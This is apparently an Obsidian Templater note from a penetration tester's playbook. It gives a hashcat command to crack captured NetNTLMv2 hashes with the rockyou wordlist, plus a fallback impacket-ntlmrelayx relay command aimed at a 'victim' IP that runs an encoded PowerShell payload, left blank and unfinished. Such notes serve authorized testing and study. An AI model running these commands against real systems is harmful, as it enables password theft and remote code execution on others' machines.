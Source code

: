 <%*
let File = await tp.system.prompt("Enter NTLM2 File name")
-%>

- Cracking with  #Hascat NTLM2  <% File %>.hash  :

```
hashcat -m 5600 <% File %>.hash /usr/share/wordlists/rockyou.txt --force
```

> [!Warning] If not found 
> If no password was found, Try NTLM2 Relay or more information or rules are missing.
> ```
>  impacket-ntlmrelayx --no-http-server -smb2support -t  <% tp.frontmatter["IPVictima"] %> -c "powershell -enc   
> ```


